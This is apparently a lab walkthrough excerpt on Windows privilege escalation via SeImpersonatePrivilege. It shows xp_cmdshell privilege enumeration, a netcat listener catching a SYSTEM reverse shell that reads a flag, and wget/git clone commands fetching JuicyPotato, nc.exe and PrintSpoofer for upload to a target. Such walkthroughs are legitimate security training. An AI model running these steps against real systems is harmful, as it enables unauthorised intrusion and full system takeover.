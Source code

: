 ```
xp_cmdshell whoami /priv

output                                                                             
--------------------------------------------------------------------------------   
NULL                                                                               

PRIVILEGES INFORMATION                                                             

----------------------                                                             

NULL                                                                               

Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   

SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   

SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    

SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    

SeImpersonatePrivilege        Impersonate a client after authentication Enabled    

SeCreateGlobalPrivilege       Create global objects                     Enabled    

SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   

NULL                                                                               

```

5) Catching SYSTEM Shell

```
sudo nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>type c:\Users\Administrator\Desktop\SeImpersonate\flag.txt
F3ar_th3_p0tato!

```

6) Escalating Privileges Using JuicyPotato

Download the JuicyPotato.exe binary and upload this and nc.exe to the target server
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
git clone https://github.com/int0x33/nc.exe/
git clone https://github.com/dievus/printspoofer.git
